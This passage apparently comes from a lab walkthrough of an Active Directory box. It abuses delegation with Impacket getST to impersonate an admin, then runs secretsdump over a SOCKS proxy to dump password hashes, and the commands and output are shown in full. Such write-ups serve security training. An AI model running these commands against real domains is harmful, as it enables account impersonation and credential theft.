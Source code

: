 Now that the jumpbox can delegate on behalf of the domain controller, we can request the TGT with Impacket's `getST` tool. This will utilize both `S4U2Self` and `S4U2Proxy` to impersonate the specified user and obtain a valid service ticket for that user. 

I found that the Administrator account is disabled and was replaced with `_admin`, so we'll request for that user instead. You could also request to impersonate `MUCDC$`, as we'll be able to dump credentials with both of those accounts.

```
└─$ proxychains4 impacket-getST -spn 'cifs/mucdc.heron.vl' -impersonate '_admin' 'heron.vl/FRAJMP$' -hashes :(FRAJMP NT HASH)
......
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  HERON.VL:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  HERON.VL:88  ...  OK
[*] Impersonating _admin
[*] Requesting S4U2self
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  heron.vl:88  ...  OK
[*] Requesting S4U2Proxy
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  heron.vl:88  ...  OK
[*] Saving ticket in _admin@cifs_mucdc.heron.vl@HERON.VL.ccache
```

The ticket should be saved in an appropriate file with a file name specified at the bottom of the command.

Let's now set our Kerberos authentication global variable to be directed to this ticket. Note that if you impersonated the `MUCDC$` machine account, you may need to rename the ticket so that the `$` special character doesn't conflict with the global variable setting.

```
└─$ export KRB5CCNAME=_admin@cifs_mucdc.heron.vl@HERON.VL.ccache
```

Now we can attempt to dump all of the secrets through our SOCKS proxy using Impacket's `secretsdump` command with our Kerberos ticket. The output may be slow since it has to tunnel through the proxy so be sure to give it some time.

```
└─$ proxychains4 impacket-secretsdump -k mucdc.heron.vl
......
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.220.53:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x7a8b61a266b3e6ba7b55725d51f2b723
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
......
_admin:500:aad3b435b51404eeaad3b435b51404ee:[...snip...]:::
```

You'll receive more of an output, as Impacket will dump every password hash for domain user and machine account that is cached on the DC. Since we were able to dump the `_admin` hash, we should be able to simply authenticate to the machine and steal the root flag.
